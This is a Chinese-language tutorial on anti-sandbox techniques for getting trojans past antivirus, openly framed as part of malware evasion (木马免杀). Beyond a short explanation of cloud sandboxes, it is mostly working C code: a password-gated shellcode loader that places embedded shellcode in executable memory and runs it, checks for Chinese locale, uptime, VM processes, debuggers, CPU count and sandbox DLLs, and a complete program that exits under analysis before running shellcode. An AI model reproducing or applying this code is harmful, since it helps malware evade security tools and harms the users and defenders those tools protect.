

# 1.什么是沙箱

## 1.1云沙箱的背景

随着互联网的发展，网络安全问题也日益严峻。恶意软件、网络攻击等威胁不断涌现，给个人用户和企业带来了巨大的损失。为了解决这一问题，云沙箱技术应运而生。

**云沙箱是一种基于*虚拟化技术*的安全防护机制，主要用于对可疑文件、恶意代码进行分析和检测。**其原理是通过在云端建立隔离的虚拟环境，将待分析的文件或代码运行在这个环境中，以模拟真实的操作系统和网络环境。通过监控和分析其行为，发现并识别其中的恶意行为。

## 1.2云沙箱的工作流程

1. 提交样本：用户将怀疑存在恶意的文件或代码提交给云沙箱系统。这些样本可能是通过电子邮
件、下载或其他途径获得的。
2. 环境隔离：云沙箱系统将待分析的样本运行在隔离的虚拟环境中。这个虚拟环境与真实的操作系
统和网络环境相似，但是与真实系统完全隔离，以防止样本对真实系统的伤害。
3. 动态行为分析：在虚拟环境中，云沙箱系统监控样本的行为和操作。它记录样本的文件操作、注
册表修改、网络连接等行为，并生成行为日志。
4. 恶意行为检测：云沙箱系统使用各种检测技术来分析样本的行为日志，以确定其中是否存在恶意
行为。这些技术包括基于特征的检测、行为模式分析、机器学习等。
5. 报告生成：云沙箱系统根据分析结果生成报告。报告中包含样本的基本信息、行为日志、恶意行
为检测结果等。这些报告可以帮助用户了解样本的威胁程度和行为特征。

# 2.为什么要反沙箱

反沙箱是木马免杀中极为重要的一个步骤, **大部分杀软本地都会有一个内置的沙箱/或者云上沙箱,当我们想要运行一个exe时,都会在沙箱中模拟运行, 进行检测**

那么如何进行反沙箱呢?

思考云沙箱和真实环境的差异, 或者是云沙箱针对你当前的环境的差异, 针对性的反沙箱

# 3.反沙箱的方法

## 3.1分离加载

本地或者网络, 参考之前

## 3.2参数启动

指的是在启动exe的时候, 通过命令行的参数启动, 推荐参数一定要是强参数

```
main.exe password
```

示例

```c_cpp
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗口

unsigned char sc[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
int main(int argc, char* argv[]) {
	if (strcmp(argv[1], "dabaige") != 0) {
		return 1;
	}
	// 使用VirtualAlloc 函数申请一个 shellcode字节大小的可以执行代码的内存块
	LPVOID addr = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	// 申请失败 , 退出
	if (addr == NULL) {
		return 1;
	}
	// 把shellcode拷贝到这块内存
	memcpy(addr, sc, sizeof(sc));
	// 创建线程运行
	HANDLE hThread = CreateThread(NULL,
		NULL,
		(LPTHREAD_START_ROUTINE)addr,
		NULL,
		NULL,
		0);
	// 等待线程运行
	WaitForSingleObject(hThread, -1);
	// 关闭线程
	CloseHandle(hThread);
}
```



首先查杀是否是木马


## 3.3常规反沙箱

我们可以通过 语言检测 , 开机时间、延迟执行、物理内存、CPU核心数，文件名、磁盘大小、用户名、进程名去判断是否是在沙箱的环境中, 如果是在沙箱的环境, 那就退出

### 检测中文

```
int check() {
LANGID langId = GetUserDefaultUILanguage();
if (PRIMARYLANGID(langId) == LANG_CHINESE)
 {
printf("Chinese");
RunCode(); // 运行我们的代码
 }
else
 {
printf("Error");
exit(1);
 }
return 0;
}
```

### 检测开机时间

```
int checkStartTime(){
ULONG uptime = GetTickCount();
if (uptime >= 10 * 60 * 1000) { // 开机时间大于10分钟
RunCode(); // 运行我们的代码
 }
else {
exit(1);
 }
}
```

### 延迟执行，检测虚拟机

```
int checkVm(char* name) {
const char* list[4] = { "vmtoolsd.exe","vmwaretrat.exe","vmwareuser.exe","vmacthlp.exe" };
for (int i = 0; i < 4; i++) {
if (strcmp(name, list[i]) == 0)
return -1;
 }
return 0;
}
bool CheckProcess() {
PROCESSENTRY32 pe32;
pe32.dwSize = sizeof(pe32);
HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
BOOL bResult = Process32First(hProcessSnap, &pe32);
while (bResult) {
char ss_Name[MAX_PATH] = { 0 };
WideCharToMultiByte(CP_ACP, 0, pe32.szExeFile, -1, ss_Name, sizeof(ss_Name),
NULL, NULL);
//printf("%s\n", ss_Name);
if (check(ss_Name) == -1)
return false;
bResult = Process32Next(hProcessSnap, &pe32);
 }
return true;
}
```

### 完整的反沙箱代码

```
#include <windows.h>
#include <iostream>
#include <intrin.h>
#include <Iphlpapi.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <Pdh.h>
#include <string>
#pragma comment(lib, "IPHLPAPI.lib")
#pragma comment(lib, "Psapi.lib")
#pragma comment(lib, "Pdh.lib")
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") // 不显示黑窗

// 是否出于调试器中
bool isDebuggerPresent() {
    return IsDebuggerPresent() || CheckRemoteDebuggerPresent(GetCurrentProcess(), nullptr);
}
// 检测cpu是否支持虚拟化
bool checkCpuVirtualization() {
    int cpuInfo[4];
    __cpuid(cpuInfo, 1);
    return (cpuInfo[2] & (1 << 31)) != 0;
}
// 检测语言是否是非中文
bool checkLan() {
    LANGID langId = GetUserDefaultUILanguage();
    if (PRIMARYLANGID(langId) == LANG_CHINESE)
    {
        return false;
    }
    else
    {
        return true;
    }
}
// 检测进程数量是否小于60
bool checkProcessCount() {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32 = { sizeof(PROCESSENTRY32) };
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        return false;
    }
    int processCount = 0;
    if (Process32First(hSnapshot, &pe32)) {
        do {
            processCount++;
        } while (Process32Next(hSnapshot, &pe32));
    }
    CloseHandle(hSnapshot);
    return processCount < 60;
}
// 检cpu数量是否小于4
bool checkCpuCount() {
    SYSTEM_INFO systemInfo;
    GetSystemInfo(&systemInfo);
    return systemInfo.dwNumberOfProcessors < 4;
}
bool checkStartTime() {
    ULONG uptime = GetTickCount();
    if (uptime >= 10 * 60 * 1000) { // 开机时间大于10分钟
        return false;
    }
    else {
        return true;
    }
};
// 检测是否存在沙箱dll
bool checkSandboxDlls() {
    // Check for known sandbox-related DLLs
    return GetModuleHandle(L"Cuckoo") || GetModuleHandle(L"vmcheck") ||
    GetModuleHandle(L"SandboxieDll") ||
    GetModuleHandle(L"snxhk.dll") || GetModuleHandle(L"vmsrvc") ||
    GetModuleHandle(L"cmdvrt32") ||
    GetModuleHandle(L"SbieDll.dll") || GetModuleHandle(L"dbghelp.dll");
}
bool checkAdminUser() {
    wchar_t userName[UNLEN + 1];
    DWORD userNameSize = UNLEN + 1;
    // 获取当前计算机用户名
    if (GetUserName(userName, &userNameSize)) {
        wprintf(L"Current User: %s\n", userName);
        // 检查用户名是否为"admin"
        if (wcscmp(userName, L"admin") == 0) {
            return false; // 是"admin"
        }
        else {
            return true; // 不是"admin"
        }
    }
    else {
        wprintf(L"Error getting user name. Error code: %d\n", GetLastError());
        return false;
    }
}
// 总的检测函数
bool checkEnvironment() {
    return isDebuggerPresent() || checkCpuVirtualization() || checkStartTime() || checkLan() ||
    checkProcessCount() || checkSandboxDlls() || checkCpuCount();
}
int main() {
    if (checkEnvironment()) {
        // 沙箱退出
        //std::cout << "Detected sandbox environment. Exiting..." << std::endl;
        return 1;
    }
    // 运行shellcode
}
```